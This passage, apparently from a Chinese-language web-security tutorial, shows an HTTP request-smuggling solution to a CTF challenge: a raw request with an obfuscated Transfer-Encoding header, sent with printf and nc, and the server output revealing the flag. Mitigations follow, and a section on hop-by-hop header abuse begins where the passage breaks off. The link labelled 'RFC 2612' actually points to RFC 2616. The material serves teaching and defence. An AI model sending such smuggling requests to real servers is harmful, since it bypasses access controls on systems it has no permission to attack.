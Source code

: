 ```http
POST / HTTP/1.1
Host: misc.ctf:33433
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding:�chunked

1
A
0

GET /results HTTP/1.1
Foo: xGET / HTTP/1.1
```

```bash
$ printf "POST / HTTP/1.1\r\nHost: misc.ctf:33433\r\nContent-Length: 39\r\nContent-Type: application/x-www-form-urlencoded\r\nTransfer-Encoding:^Lchunked\r\n\r\n1\r\nA\r\n0\r\n\r\nGET /results HTTP/1.1\r\nFoo: xGET / HTTP/1.1\r\n\r\n" | nc misc.ctf:33433

HTTP/1.1 400 BAD REQUEST
Server: gunicorn/19.9.0
Date: Thu, 04 Jun 2020 17:41:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 192

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>400 Bad Request</title>
<h1>Bad Request</h1>
<p>The browser (or proxy) sent a request that this server could not understand.</p>
HTTP/1.1 200 OK
Server: gunicorn/19.9.0
Date: Thu, 04 Jun 2020 17:41:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 30

flag{r3KW35t 5mu99L1N9 12 8Ad}
```

### 修复

- 使用HTTP/2

加入了Request multiplexing over a single TCP connection，减少TCP连接复用的可能性

- 前后端服务器一致
- 禁用代理服务器与后端服务器之间的TCP连接复用

## hop-by-hop headers abuse

根据[RFC 2612](https://datatracker.ietf.org/doc/html/rfc2616#section-13.5.1)，为了区分请求中代理是否存cache的行为，把请求头区分为以下两种

- end-to-end
